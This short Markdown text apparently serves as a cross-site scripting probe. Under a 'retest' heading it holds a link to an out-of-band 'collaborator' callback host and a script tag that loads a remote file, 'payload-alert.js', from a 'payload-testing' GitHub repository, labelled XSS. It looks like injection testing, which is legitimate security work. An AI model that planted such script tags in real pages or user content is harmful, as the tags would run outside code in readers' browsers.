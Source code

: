 # retest
retest collaborator
<a href="http://egyugfsk7ew4nqywh6zgz4tcg3muawyl.c01.red">collaborator</a>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
XSS
